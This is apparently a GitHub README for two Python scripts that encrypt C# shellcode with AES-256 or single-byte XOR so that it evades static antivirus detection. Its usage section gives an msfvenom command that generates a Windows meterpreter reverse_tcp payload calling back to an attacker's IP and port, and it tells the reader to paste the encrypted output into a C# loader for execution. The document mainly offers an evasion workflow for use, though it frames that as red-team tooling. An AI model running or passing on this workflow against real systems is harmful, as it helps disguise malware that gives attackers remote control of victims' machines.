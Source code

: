 # AES-256 & XOR Shellcode Encryption  

## Overview  
This repository contains two Python scripts that encrypt C# shellcode using AES-256 and XOR to enhance payload stealth and bypass static AV detection. These scripts format the encrypted payload as a C# byte array, making it easy to integrate into red team tooling.  

### Scripts Included:  
✅ `AES256enc.py` – Uses **AES-256 CBC mode** to encrypt C# shellcode with a randomly generated key & IV.  
✅ `XORenc.py` – Encrypts shellcode using a **random single-byte XOR key** for lightweight obfuscation.  

---

## AES256enc.py – AES-256 Encryption 
This script encrypts **C# shellcode** using **AES-256 in CBC mode**, ensuring payload confidentiality.  

### Output Format:  
- **AES Key** – Generated AES key in `xx-xx` format for C# integration.  
- **IV (Initialization Vector)** – IV in `xx-xx` format for CBC decryption.  
- **Encrypted Shellcode** – Ready-to-use byte array for C# execution.  

### Installation & Dependencies  
```bash
sudo apt update  
sudo apt install python3-pycryptodome
```

### Usage
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp
```
-  Copy the byte array inside {} from msfvenom output.
Paste it into buf in AES256enc.py.
- run either python script.
```bash
python3 aes256.enc.py
```
Copy the Generated Key, IV, and Encrypted Shellcode and paste them into your C# loader for decryption and execution.

